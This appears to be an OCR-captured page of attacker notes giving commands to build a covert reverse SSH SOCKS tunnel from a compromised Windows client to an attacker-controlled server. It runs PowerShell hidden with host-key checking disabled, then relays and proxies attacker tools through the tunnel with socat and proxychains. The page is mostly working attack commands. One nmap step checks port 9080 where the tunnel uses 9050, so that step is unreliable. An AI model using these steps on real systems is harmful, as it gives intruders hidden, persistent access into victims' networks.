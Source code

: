 ### Start ssh connection from compromised client to ssh server
```
Start-Process -FilePath "powershell" -ArgumentList " -w hidden -c ssh -p 22 -o 'StrictHostKeyChecking=no' -i $HOME\.ssh\<privateKey> -N -R 9050 <user>@<sshRhost>"
```

### Start vpn from local attacker machine to ssh server
```
openvpn --config <file>.ovpn
```

### Check if port 9050 on ssh server is reachable from attacker machine
```
nmap -p 9080 -Pn -n <sshRhost>
```

### If not redirect traffic on ssh server
```
socat TCP-LISTEN:9051,fork TCP:localhost:9050
```

### Reconfigure listener port on attacker machine
```
sed -i 's/ 9050/ 9051/g' /etc/proxychains4.conf
```

### Execute tools on attacker machine
```
proxychains firefox
```

